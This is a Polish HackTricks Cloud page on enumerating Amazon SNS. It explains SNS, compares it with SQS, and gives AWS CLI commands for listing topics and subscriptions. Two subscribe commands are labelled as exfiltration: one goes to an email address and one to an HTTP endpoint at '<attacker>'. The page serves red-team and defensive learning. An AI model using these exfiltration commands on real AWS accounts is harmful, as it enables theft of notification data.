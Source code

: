 # AWS - SNS Enum

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) jest opisany jako **w pełni zarządzana usługa komunikacyjna**. Obsługuje zarówno **komunikację aplikacji do aplikacji** (A2A), jak i **aplikacji do osoby** (A2P).

Kluczowe funkcje dla komunikacji A2A obejmują mechanizmy **publikowania/subskrybowania (pub/sub)**. Te mechanizmy wprowadzają **tematy**, kluczowe dla umożliwienia **wysokiej przepustowości, opartej na pchnięciu, wielu do wielu komunikacji**. Ta funkcja jest bardzo korzystna w scenariuszach, które obejmują systemy rozproszone, mikrousługi i architektury serwerowe oparte na zdarzeniach. Wykorzystując te tematy, systemy publikujące mogą skutecznie rozprowadzać wiadomości do **szerokiego zakresu systemów subskrybentów**, ułatwiając wzorzec rozgałęziania wiadomości.

### **Różnice w porównaniu z SQS**

**SQS** to usługa oparta na **kolejkach**, która umożliwia komunikację punkt-punkt, zapewniając przetwarzanie wiadomości przez **jednego konsumenta**. Oferuje **dostarczanie co najmniej raz**, obsługuje kolejki standardowe i FIFO, oraz umożliwia przechowywanie wiadomości w celu ponownych prób i opóźnionego przetwarzania.\
Z kolei **SNS** to usługa oparta na **publikowaniu/subskrybowaniu**, umożliwiająca **komunikację jeden do wielu** poprzez rozgłaszanie wiadomości do **wielu subskrybentów** jednocześnie. Obsługuje **różne punkty końcowe subskrypcji, takie jak e-mail, SMS, funkcje Lambda oraz HTTP/HTTPS**, oraz zapewnia mechanizmy filtrowania dla ukierunkowanego dostarczania wiadomości.\
Podczas gdy obie usługi umożliwiają odseparowanie między komponentami w systemach rozproszonych, SQS skupia się na komunikacji w kolejce, a SNS kładzie nacisk na wzorce komunikacji oparte na zdarzeniach i rozgałęzianiu. 

### **Wyliczenie**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Zauważ, że jeśli **temat jest typu FIFO**, mogą być używani tylko subskrybenci korzystający z protokołu **SQS** (HTTP lub HTTPS nie mogą być używane).

Nawet jeśli `--topic-arn` zawiera region, upewnij się, że określisz poprawny region w **`--region`** lub otrzymasz błąd, który wygląda na brak dostępu, ale problemem jest region.
{% endhint %}

#### Nieuwierzytelniony dostęp

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Eskalacja uprawnień

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Po wykorzystaniu

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Trwałość

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referencje

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Zdobądź wiedzę o hakowaniu AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
